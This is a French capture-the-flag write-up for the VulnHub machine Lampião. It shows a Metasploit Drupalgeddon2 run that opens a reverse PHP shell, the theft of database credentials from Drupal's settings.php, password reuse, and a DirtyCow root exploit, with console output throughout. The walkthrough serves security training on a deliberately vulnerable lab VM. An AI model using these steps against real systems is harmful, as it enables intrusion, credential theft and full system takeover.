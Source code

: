 ```yaml
---
title: "Solution du CTF Lampião de VulnHub"
tags: [CTF, VulnHub]
---
```


[Lampião](https://www.vulnhub.com/entry/lampiao-1,249/) est un CTF cré par *Tiago Tavares* et disponible sur *VulnHub*.

Un scan de port remonte 3 services écoutants sur les ports 22, 80 et 1898.

Il apparait assez vite que le port 80 a un fonctionnement bizarre. On ne peut par exemple pas faire une énumération dessus.

Problème de montée en charge ? En fait le port retourne un contenu ascii brut sans entêtes HTTP. Les navigateurs récupèrent et affichent tout de même la réponse, mais via les dev-tools on peut voire que les entêtes de réponse sont manquants.

Le dernier port est celui qui nous intéresse :

```
1898/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
```

On trouve dessus un `Drupal 7`. J'ai essayé quelques exploits simples sur *exploit-db* sans réussite. Je suis donc passé à *Metasploit* depuis *Kali Linux*.

Le module suivant a fonctionné :

```
msf6 exploit(unix/webapp/drupal_drupalgeddon2) > show options

Module options (exploit/unix/webapp/drupal_drupalgeddon2):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   DUMP_OUTPUT  false            no        Dump payload command output
   PHP_FUNC     passthru         yes       PHP function to execute
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS       192.168.56.169   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        1898             yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       Path to Drupal install
   VHOST                         no        HTTP server virtual host


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.79    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic (PHP In-Memory)



View the full module info with the info, or info -d command.

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run

[*] Started reverse TCP handler on 192.168.56.79:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Command shell session 1 opened (192.168.56.79:4444 -> 192.168.56.169:43830) at 2023-04-10 18:13:12 +0200
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Petit aparté : quand un module ne fonctionne pas vous pouvez activer le débogage pour déterminer ce qui ne passe pas ou utiliser un payload différent.

Avec le shell obtenu je peux lire la configuration du Drupal présente dans le fichier `/var/www/html/sites/default/settings.php` :

```php
$databases = array (
  'default' => 
  array (
    'default' => 
    array (
      'database' => 'drupal',
      'username' => 'drupaluser',
      'password' => 'Virgulino',
      'host' => 'localhost',
      'port' => '',
      'driver' => 'mysql',
      'prefix' => '',
    ),
  ),
);

```

Je teste vite le mot de passe `Virgulino` pour le compte local unix `tiago` et ça fonctionne.

Ne trouvant rien de bien intéressant sur le système, j'utilise `pspy` pour monitorer les processus. Je remarque cette entrée :

```
2023/04/10 15:36:51 CMD: UID=0    PID=600    | awk {print $2} 
2023/04/10 15:36:51 CMD: UID=0    PID=599    | grep -v grep 
2023/04/10 15:36:51 CMD: UID=0    PID=598    | grep nc -lk 80 
2023/04/10 15:36:51 CMD: UID=0    PID=597    | ps aux 
2023/04/10 15:36:51 CMD: UID=0    PID=596    | /bin/bash /etc/cangaco/lampiao.sh
```

Malheureusement aucun des fichiers dans `/etc/cangaco/` ne m'est accessible.

Finalement j'ai regardé les exploits kernel suggérés par `LinPEAS`. Une bonne partie concerne l'architecture x86_64 mais le système est vulnérable à DirtyCow.

J'ai d'abord testé l'exploit habituel (`dirty.c`) mais ce dernier causait un kernel panic. L'exploit `cowroot.c` fonctionne correctement, il faut seulement penser à commenter la partie 64 bits et décommenter la partie 32 bits.

```console
tiago@lampiao:~$ gcc -o cowroot cowroot.c -lpthread
cowroot.c: In function ‘procselfmemThread’:
cowroot.c:96:9: warning: passing argument 2 of ‘lseek’ makes integer from pointer without a cast [enabled by default]
         lseek(f,map,SEEK_SET);
         ^
In file included from cowroot.c:27:0:
/usr/include/unistd.h:334:16: note: expected ‘__off_t’ but argument is of type ‘void *’
 extern __off_t lseek (int __fd, __off_t __offset, int __whence) __THROW;
                ^
cowroot.c: In function ‘main’:
cowroot.c:139:5: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘__off_t’ [-Wformat=]
     printf("Size of binary: %d\n", st.st_size);
     ^
tiago@lampiao:~$ ./cowroot 
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
Size of binary: 45420
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@lampiao:/home/tiago# echo 0 > /proc/sys/vm/dirty_writeback_centisecs
root@lampiao:/home/tiago# id
uid=0(root) gid=1000(tiago) groups=0(root),1000(tiago)
root@lampiao:/home/tiago# cd /root
root@lampiao:/root# ls
flag.txt
root@lampiao:/root# cat flag.txt
9740616875908d91ddcdaa8aea3af366
```

Il s'est avéré que c'était la solution attendue.
